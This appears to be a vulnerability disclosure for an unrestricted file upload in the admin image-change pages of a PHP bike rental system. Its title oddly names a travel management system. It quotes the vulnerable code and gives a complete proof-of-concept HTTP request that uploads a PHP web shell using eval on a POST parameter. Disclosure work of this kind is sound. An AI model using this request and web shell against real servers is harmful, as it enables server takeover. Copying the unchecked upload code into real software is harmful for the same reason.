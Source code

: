 # Travel Management System has File upload vulnerability in /admin/changeimage*.php



## supplier



https://code-projects.org/online-bike-rental-system-using-php-source-code/



## Vulnerability file



/admin/changeimage1.php、/admin/changeimage2.php、/admin/changeimage3.php、/admin/changeimage4.php、/admin/changeimage5.php

The above vulnerability files all have the same issue, and the source code of the vulnerabilities is the samel.

## describe



All files in changeimage *. php have incomplete identification of upload file variables. Hackers can directly upload files with any extension. If the content of the file contains malicious content, it may result in the loss of server permissions.

## **Code analysis**

```
<?php
session_start();
error_reporting(0);
include('includes/config.php');
if(strlen($_SESSION['alogin'])==0)
	{
header('location:index.php');
}
else{
// Code for change password
if(isset($_POST['update']))
{
$vimage=$_FILES["img4"]["name"];
$id=intval($_GET['imgid']);
move_uploaded_file($_FILES["img4"]["tmp_name"],"img/vehicleimages/".$_FILES["img4"]["name"]);
$sql="update tblvehicles set Vimage4=:vimage where id=:id";
$query = $dbh->prepare($sql);
$query->bindParam(':vimage',$vimage,PDO::PARAM_STR);
$query->bindParam(':id',$id,PDO::PARAM_STR);
$query->execute();

$msg="Image updated successfully";



}
?>
```

###### Using the "move_uploaded_file" function, there is no restriction on the type of file upload, which allows malicious files to be uploaded directly by modifying the file extension.

**The above vulnerability files all have the same issue, and the source code of the vulnerabilities is the same. Only one file is listed here for explanation.**

## POC1

```
POST /admin/changeimage4.php HTTP/1.1
Host: 192.168.20.133
Content-Length: 300
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.20.133
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylqS5FsBlhpjSeIev
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.20.133/admin/changeimage4.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4rinhnbm4u05201jo2fh4fnkc6
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive

------WebKitFormBoundarylqS5FsBlhpjSeIev
Content-Disposition: form-data; name="img4"; filename="2.php"
Content-Type: image/jpeg

<?php @eval($_POST['1']); ?>
------WebKitFormBoundarylqS5FsBlhpjSeIev
Content-Disposition: form-data; name="update"


------WebKitFormBoundarylqS5FsBlhpjSeIev--

```

![image-20250106185502284]((https://github.com/Huandtx/cve/blob/main/cve/Online%20Bike%20Rental%20System/image-20250106185502284.png))

![image-20250106185656436]((https://github.com/Huandtx/cve/blob/main/cve/Online%20Bike%20Rental%20System/image-20250106185656436.png))

